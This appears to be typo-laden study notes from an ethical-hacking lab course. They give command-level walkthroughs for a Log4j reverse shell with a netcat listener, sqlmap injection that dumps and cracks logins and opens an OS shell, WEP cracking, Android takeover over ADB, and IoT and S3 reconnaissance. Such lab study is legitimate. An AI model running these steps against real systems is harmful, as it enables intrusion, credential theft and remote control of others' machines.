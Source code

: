 - gain access by exploiting LOG4j vuln
1. cd log4j-shell-poc -> run | replace the poc.py replace the line 62 jdk path /usr/jdk/jdk as below file name and line 87 os.path.join same  and line 99 = os.path.join
2. tar -xf jdk-8u202.tar.gz -> mv jdk.8.0.202 /usr/bin/ 
3. do rename the path ^ step 1 
4. nc -lvp 9001  (netcat listener)
5. pyhton3 poc.py --userip 10.10.1.13 --webport 8000 --lport 9001 -> copy payload = sendme one
6. open hosted webpage and paste the payload in username fiel and pwd and press login
7. swtich to netcat list -> got connect -> pwd -> whoami -> get flag.tx

* SQL Injection 
- Perform SQL injection against MsSQL 3306 to DB using sqlmap
1. parrot machie - browser moviscope.com
2. login with cred sam and sam -> view profile -> copy url with id=1
3. document.cookie -> get cookie from console between the "cookie"
4. sqlmap -u "pastetheurl" --cookie="paster" --dbs -> Y -> Y -> Y -> got dbname list
5. sqlmap -u "pastetheurl" --cookie="paster" -D dbname --tables -> got table names
6. sqlmap -u "pastetheurl" --cookie="paster" -D moviescope -T User_login --dump -> got table names | if pwd got hashed then use hashes.com or crackstatioo or hashcat, joththeripper to crack it
7. login with john account to check 
8. sqlmap -u "pastetheurl" --cookie="paster" --os-shell -> Y -> got shell 
9. hostname -> help for commandlist 

- detect sql injection using zap
1. automated scan

* Hacking wireless networks
- wifi packet using wireshar

- CRACK a wep network using aircrack-ng
1. aircrak-ng file.pcap

* Android Hacking
- Exploit andoird phonesploit 
1. in parrot - python3 phonesploit.py -> 3 connect to new phone -> if failed press afain anf agian untill ask for ip
2. enter ip on which port is 5555
3. 4 to access the shell  and so on

- payload using androrat and hack 
1. python3 and so on

- analze the malicous app using android analysziers
1. sisik.eu/apk-tools

* iot hacking
- gather info from foortpirn tools
1. shodan and fofa, ghdb, port:1883, scadalogin

- cappture and analyze iot netwrok traffic on wireshark
1. filter = mqtt 

* Cloud computing
- enum s3bucket using s3canner
1. python3 ./s3scanner.py sites.txt 
